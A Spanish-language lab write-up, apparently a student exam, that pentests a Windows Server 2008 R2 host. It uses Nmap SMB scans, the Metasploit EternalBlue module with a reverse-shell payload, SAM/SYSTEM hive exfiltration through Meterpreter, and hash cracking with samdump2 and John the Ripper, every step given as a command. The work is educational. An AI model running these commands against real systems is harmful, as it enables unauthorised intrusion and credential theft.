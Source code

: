 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 19:45:00 -05:00
categories: [Seguridad]
tags: [Pentesting, SMB, Metasploit, Exfiltración]
---
```


## Pentesting en un Servidor Windows Server 2008 R2

**Objetivo:** Realizar un pentesting en un servidor con Windows Server 2008 R2 con el servicio SMBv1 habilitado. Identificar vulnerabilidades, explotarlas para obtener acceso y exfiltrar archivos SAM y SYSTEM.

### 2.1 Escaneo de Red y Enumeración de Servicios

Usaremos **Nmap** para descubrir servicios activos en el servidor y verificar si SMBv1 está habilitado.

- **Comando Nmap**:
    ```bash
    sudo nmap -p 445 --script=smb-vuln* 10.0.2.4
    ```
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_1.png)

- **Explicación**: `-p 445` escanea los puertos de SMB, y `--script=smb-vuln*` verifica si SMBv1 está activo. Si el output muestra `NT LM 0.12`, el servidor tiene SMBv1 habilitado.

### 2.2 Exploración de la Vulnerabilidad

Basándonos en el escaneo, identificamos si el servidor es vulnerable al exploit **EternalBlue (MS17-010)**.

- **Uso de Metasploit**:
    1. Iniciar Metasploit:
        ```bash
        msfconsole
        ```
    2. Seleccionar el módulo de exploit:
        ```bash
        use exploit/windows/smb/ms17_010_eternalblue
        ```
    - **Explicación**: Este módulo explota la vulnerabilidad MS17-010 en SMBv1 para obtener acceso remoto.
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_13.png)
### 2.3 Configuración del Exploit en Metasploit

Configuramos el exploit con los parámetros necesarios:

- **Configuración**:
    ```bash
    set RHOSTS 10.0.2.4
    set LHOST 10.0.2.9
    set payload windows/x64/meterpreter/reverse_tcp   (no lo use)
    ```
- **Explicación**:
    - `RHOSTS`: IP de la máquina objetivo.
    - `LHOST`: IP de la máquina atacante.
    - `payload`: se selecciona para obtener una reverse shell.

![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_13.png)
### 2.4 Ejecución del Exploit

Ejecutamos el exploit para obtener una conexión **Meterpreter**.

- **Comando**:
    ```bash
    exploit
    ```
- **Indicador de éxito**: Ver un mensaje como `Meterpreter session X opened`, que confirma la conexión.

### 2.5 Exfiltración de Archivos SAM y SYSTEM

Para extraer los archivos SAM y SYSTEM, utilizamos un script **Volume Shadow Copy**.

1. **Subir el script vssown.vbs**:
    ```bash
    upload /path/to/vssown.vbs C:\\Windows\\Temp\\vssown.vbs
    ```
2. **Ejecutar el script**:
    ```bash
    execute -f "C:\\Windows\\Temp\\vssown.vbs"
    ```
3. **Copiar archivos SAM y SYSTEM**:
    ```bash
    download C:\\Windows\\Temp\\SAM /tmp/SAM
    download C:\\Windows\\Temp\\SYSTEM /tmp/SYSTEM
    ```

    ![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_9.png)

### 2.6 Análisis de los Archivos Exfiltrados

En la máquina atacante, usamos **samdump2** para extraer los hashes y luego intentamos descifrarlos con **John the Ripper**.
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_9.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_10.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_11.png)
![Escaneo con los flags -sS, -sV, -O](assets/images/Screenshot_12.png)

- **Extracción de Hashes**:
    ```bash
    samdump2 /tmp/SYSTEM /tmp/SAM > hashes.txt
    ```
- **Descifrar Hashes**:
    ```bash
    john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
    ```

Estas herramientas permiten identificar y descifrar contraseñas de usuarios del sistema objetivo.

